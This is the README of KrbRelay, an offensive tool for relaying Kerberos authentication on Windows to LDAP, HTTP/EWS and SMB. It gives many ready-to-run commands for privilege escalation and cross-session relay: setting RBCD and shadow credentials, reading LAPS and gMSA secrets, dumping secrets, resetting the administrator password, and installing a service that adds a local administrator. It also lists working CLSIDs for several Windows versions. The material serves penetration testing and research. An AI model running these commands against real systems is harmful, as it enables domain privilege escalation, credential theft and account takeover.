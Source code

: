# KrbRelay

Relaying 3-headed dogs.
More details at https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html and https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html

This should be working on most fully patched Windows systems. There may be difficulties with Server OS in lab environments because of the firewall blocking the OXID resolver however, this will most likely not be an issue during real life engagements, same goes for CLSIDs.

![image-20220213094644590](Images/image-20220213094644590.png)

### Supported Protocols and Features

Some protocols are more completed than others, PR's are welcomed. 

* LDAP/LDAPS
* HTTP
  * EWS
* SMBv2
* RPC over SMB
  * MS-SAMR
  * MS-SCMR
  * MS-RPRN
  * MS-RRP
  * MS-LSAT/MS-LSAD

### Examples

````
# LPE
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred

# Cross-Session LDAP
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!

# Cross-Session HTTP
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182

# Cross-Session SMB
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""
````

 `CheckPort.exe` is a C# tool that can be used to discover available ports for the OXID resolver.

```
C:\Users\domain_user\Desktop\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] Port: 1024 is available
```



## CLSIDs

We'll need to unmarshal our OBJREF inside of a process that would allow authentications over the network, this can be verified by looking at the `Impersonation Level` 

* RPC_C_IMP_LEVEL_DEFAULT			 # Will not work
* RPC_C_IMP_LEVEL_ANONYMOUS    # Will not work
* RPC_C_IMP_LEVEL_IDENTIFY             # Works for LDAP
* RPC_C_IMP_LEVEL_IMPERSONATE   # Required for SMB
* RPC_C_IMP_LEVEL_DELEGATE

When relaying to LDAP or any other service that has signing enabled but not enforced we would also need to verify that the `Authentication Level` of the process is set to `RPC_C_AUTHN_LEVEL_CONNECT`.

Processes running under `NT Authority\Network service` will use the SYSTEM account when authenticating over the network.

Tool for discovering CLSIDs: https://github.com/tyranid/oleviewdotnet

```powershell
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel
```



#### Windows 10 1903

```
# SYSTEM Relay
0bae55fc-479f-45c2-972e-e951be72c0c1 # RPC_C_IMP_LEVEL_IDENTIFY
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE 

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE 
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE 
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE 
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE 
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE 
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2019
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
354ff91b-5e49-4bdc-a8e6-1cb6c6877182 # RPC_C_IMP_LEVEL_IMPERSONATE 
38e441fb-3d16-422f-8750-b2dacec5cefc # RPC_C_IMP_LEVEL_IMPERSONATE 
f8842f8e-dafe-4b37-9d38-4e0714a61149 # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2016
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE
5f7f3f7b-1177-4d4b-b1db-bc6f671b8f25 # RPC_C_IMP_LEVEL_IMPERSONATE
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE
98068995-54d2-4136-9bc9-6dbcb0a4683f # RPC_C_IMP_LEVEL_IMPERSONATE
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE
bdb57ff2-79b9-4205-9447-f5fe85f37312 # RPC_C_IMP_LEVEL_IMPERSONATE
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE
```



## Error codes

Doesn't work the first time? try again then check these error codes, and if you are going to open an Issue, please paste the full output.

#### Firewall blocking the OXID resolver

```
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable. (Exception from HRESULT: 0x800706BA)
```
#### Bad CLSID

```
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object (Exception from HRESULT: 0x80080004 (CO_E_BAD_PATH))
```
#### Kerberos Issues (Authentication type not recognized), Will work after reboot/clock sync

```
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

#### Parsing Error, valid apRep tickets starts with 6f

```
[*] apRep1: fe534d4240000100160000c00100010001000000000000000100000000000000000000000000000035000000006c0000000000000000000000000000000000000900000048006000605e06092a864886f71201020203007e4f304da003020105a10302011ea411180f32303232303230373134303935325aa5050203045ad0a603020121a90b1b094854422e4c4f43414caa153013a003020101a10c300a1b0877696e3230313624
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```

#### CLSID impersonation level or authentication level too low

```
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```



### Acknowledgements

* [Vletoux ](https://twitter.com/mysmartlogon) for starting [RPCForSMBLibrary](https://github.com/vletoux/RPCForSMBLibrary)
* [James Forshaw](https://twitter.com/tiraniddo) for introducing Kerberos relaying and [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)
* [TalAloni](https://github.com/TalAloni/) for [SMBLibrary](https://github.com/TalAloni/SMBLibrary)
* [MichaelGrafnetter](https://twitter.com/mgrafnetter) for [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
* [Kevin Robertson](https://twitter.com/kevin_robertson) for [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
